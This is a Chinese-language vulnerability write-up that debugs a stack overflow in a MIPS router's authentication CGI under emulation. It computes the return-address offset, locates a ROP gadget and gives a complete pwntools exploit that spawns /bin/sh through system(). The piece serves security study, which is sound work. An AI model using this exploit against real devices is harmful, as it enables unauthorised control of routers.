 gdb中在`authenticationcgi_main`入口处`0x40B028`下断，单步跟踪，发现在地址`0x40B500`处的read函数处覆盖率saved_ra，为了避免遇到与前一章相同的二次溢出的问题，继续单步下去。

发现在`0x40b514`处调用函数`0x40a424`处报错，重新调试，并在该地址下断点。跟进去该函数。单步跟下去，发现是在地址`0x40A494`处出错，并且报错信息为：
```C
   0x7676c8a0 <memcmp+16>    lbu    $v0, ($a1)
   0x7676c8a4 <memcmp+20>    addiu  $a0, $a0, 1
   0x7676c8a8 <memcmp+24>    subu   $v0, $v1, $v0

i r $a1
a1: 0x41414141
```
可以看到\$a1被覆盖为了0x41414141，从而导致访存错误。

尝试减小字符串，来查看是否仍然会崩溃。使用以下payload发现可成功控制pc，因此可确定导致溢出的原因为`0x40B500`处的read函数。
```c
sudo ./cgi_run.sh `python -c "print 'uid=1234&password='+'A'*1160"` "uid=1234"
```

阅读汇编代码，发现该处的read函数调用为：
```C
read( fileno(stdin), var_430, atoi(getenv("CONTENT_LENGTH")));
```
所以很容易看到溢出的原理是没有对`CONTENT_LENGTH`进行限制，而缓冲区空间有限，导致溢出。

对后面的代码分析，发现在`0x40B550`处其要求参数的值必须包括`id=`以及`password=`，否则会提前报错，因此可构造exp。

### 漏洞利用

从IDA中可以得到覆盖pc的字符串偏移为：
```c
offset=-0x4-0x430=0x42c
len=0x42c-len('uid=1234&password=')=1050
```
进行测试，发现刚好覆盖saved_ra：
```c
sudo ./cgi_run.sh `python -c "print 'uid=1234&password='+'A'*1050+'B'*4"` "uid=1234"
```

可使用与上一章相同的gadget来实现ROP。

ulibc中system地址为`0x53200`，mipsrop寻找gadget为：
```C
python>mipsrop.stackfinder()
------------------------------------------------------------------
|  Address     |  Action                     |  Control Jump      |
------------------------------------------------------------------
|  0x000159CC  |  addiu $s5,$sp,0x170+var_160|  jalr  $s0         |

.text:000159CC                 addiu   $s5, $sp, 0x170+var_160
.text:000159D0                 move    $a1, $s3
.text:000159D4                 move    $a2, $s1
.text:000159D8                 move    $t9, $s0
.text:000159DC                 jalr    $t9 ; 
.text:000159E0                 move    $a0, $s5
```
因此完整exp为：
```PYTHON
from pwn import *

system_addr=0x76738000+0x53200
gadget=0x76738000+0x000159CC 
f=open("payload","wb")
data='uid=1234&password='
data+='A'*(1050-0x24)+p32(system_addr)+'A'*0x20+p32(gadget)+'A'*0x10+'/bin/sh\x00'
f.write(data)
f.close()
```
```C
```